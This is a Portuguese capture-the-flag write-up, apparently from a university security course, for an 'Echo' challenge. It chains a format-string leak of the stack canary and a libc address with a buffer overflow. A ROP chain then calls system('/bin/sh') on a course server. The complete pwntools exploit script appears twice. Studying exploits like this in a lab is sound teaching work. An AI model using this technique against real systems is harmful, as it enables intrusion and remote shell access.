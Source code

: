 # Echo

### Vulnerabilidade 

Primeiramente, notou-se que através da string pedida como nome input se podia descobrir informações importantes sobre o sistema, através de um ataque format string.

Numa segunda instância percebeu-se que se podia provocar um buffer overflowm visto o array da string de nome, de tamanho 20 bytes, estar a ser lida como se tivesse 100 bytes. 

Estas duas Vulnerabilidades são a base do exploit.

### Exploit

Primeiro, convém criar uma função para nos ajudar no input para o servidor, uma vez que apenas podemos explorar o nome que enviámos, é útil ter uma função para tal.

```python
def message(p, sms):
   p.recvuntil(b">")
   p.sendline(b"e")
   p.recvuntil(b"Insert your name (max 20 chars): ")
   p.sendline(sms)
   ans = p.recvline()
   p.recvuntil(b"Insert your message: ")
   p.sendline(b"")
   return ans
```

Passando agora ao que importa.
Notou-se numa primeira instância que o programa tinha todas as proteções ativadas. Para facilitar a execução do nosso exploit procurou-se desativar a aslr localmente para tornar mais percéptivel algumas associações e também permitir confirmar a nossa linha de pensamento.


Uma vez que os buffers são colocados junto ao canário suspeitá-mos que o oitavo argumento da stack seria um canário ...
![imagem.png](./ECHO1.png)

Uma vez que não tinhamos a certeza absoluta se o oitavo argumento seria ou não o canário decidimos correr o programa duas vezes e verificar se o argumento mudava...

Tal é possível pelo facto de termos desligado o aslr.

![imagem.png](./imagem.png)
![imagem-1.png](./imagem-1.png)

Uma vez que entre o canário e o return address temos o caller's save e o caller's ebp pelo que o o return address estará no 11 argumento.

Argumento 8 e 11...

![imagem-2.png](./imagem-2.png)
![imagem-3.png](./imagem-3.png)

Sabendo que esse argumento pertence a uma intrução da __libc_start_main procurou-se descobrir o offset desta para a base da libc

![imagem-4.png](./imagem-4.png)

![imagem-5.png](./imagem-5.png)

Ao fazer o mesmo para o endereço de __libc_start_main + 245, desta vez dentro do gdb, apercebemo-nos que o offset entre as duas intruções é de - 71 (decimal).
Nota: A conta varia conforme a biblioteca que se têm
Tal é importante para que consigámos dar uso a uma biblioteca auxiliar.

O endereço base será então 0xf7debee5 - libc.symbols["__libc_start_main"] + 71

Assim sendo, até aqui temos que 
```python
from pwn import *

elf = ELF("program")
LOCAL = False

if LOCAL:
   libc = elf.libc
   p = elf.process()
else:
   libc = ELF("libc.so.6")
   p = remote("ctf-fsi.fe.up.pt", 4002)

ropExec = ROP(elf)

def message(p, sms):
   p.recvuntil(b">")
   p.sendline(b"e")
   p.recvuntil(b"Insert your name (max 20 chars): ")
   p.sendline(sms)
   ans = p.recvline()
   p.recvuntil(b"Insert your message: ")
   p.sendline(b"")
   return ans

buffOffset = 20

sms1 = message(p, b"%8$x.%11$x")
print(int(sms1.split(b'.')[0], 16))
canary, putsAddress = [int(val,16) for val in sms1.split(b'.')]

libc.address = putsAddress - libc.symbols["__libc_start_main"] + 71 # offset para base

``` 

Tendo acesso ao endereço base podemos agora altera o endereço de retorno da frame atual por uma função ao nosso agrado.
Neste caso chamaremos a função system() com o argumento da shell. 

Ou seja, escrevemos o endereço de retorno, deixámos 4 bytes (por causa do esp, slide 13 da semana 5) e depois colocámos o endereço do /bin/sh. 
Felizmente já existe uma biblioteca que nos trata disso.

```python
# Execute system
ropLib = ROP(libc)
ropLib.system(next(libc.search(b"/bin/sh")))
ropLib.exit()
```

Notou-se ainda que o canário tem um byte nulo (ver que na imagem acima que o canário acaba(começa) com \0), o que parece ser um impedimento para a escrita.
Se somarmos um valor pequeno ao ultimo byte do canário conseguimos passá-lo por cima sem sermos detetados.
Isto acontece pois a deteção só é feita ao sair da função main.
Podemos assim, numa escrita subsequente, repor o canário para o estado original.

Assim sendo,
```python
payload = flat(b"a" * buffOffset,canary + 2, b"A"*8, ropLib.chain())
# payload = flat(b"a" * buffOffset,canary + 1, b"A"*8, libc.symbols["system"], b"A"*4, next(libc.search(b"/bin/sh")))

res = message(p, payload)
```

Agora para repôr o estado do canário.

```python
r = message(p, b"." * 19)
```

Agora basta correr o programa e sair dele, usando a opção q.

![imagem-6.png](./imagem-6.png)

```python

from pwn import *

elf = ELF("program")
LOCAL = False

if LOCAL:
   libc = elf.libc
   p = elf.process()
else:
   libc = ELF("libc.so.6")
   p = remote("ctf-fsi.fe.up.pt", 4002)

ropExec = ROP(elf)

def message(p, sms):
   p.recvuntil(b">")
   p.sendline(b"e")
   p.recvuntil(b"Insert your name (max 20 chars): ")
   p.sendline(sms)
   ans = p.recvline()
   p.recvuntil(b"Insert your message: ")
   p.sendline(b"")
   return ans

buffOffset = 20

sms1 = message(p, b"%8$x.%11$x")
canary, putsAddress = [int(val,16) for val in sms1.split(b'.')]

libc.address = putsAddress - libc.symbols["__libc_start_main"] + 71 # offset para base

# Execute system
ropLib = ROP(libc)
ropLib.system(next(libc.search(b"/bin/sh")))
ropLib.exit()

# Canário termina com /0 ?? No problemo
payload = flat(b"a" * buffOffset,canary + 2, b"A"*8, ropLib.chain())

# payload = flat(b"a" * buffOffset,canary + 1, b"A"*8, libc.symbols["system"], b"A"*4, next(libc.search(b"/bin/sh")))

res = message(p, payload)

r = message(p, b"." * 19)

p.interactive()




```






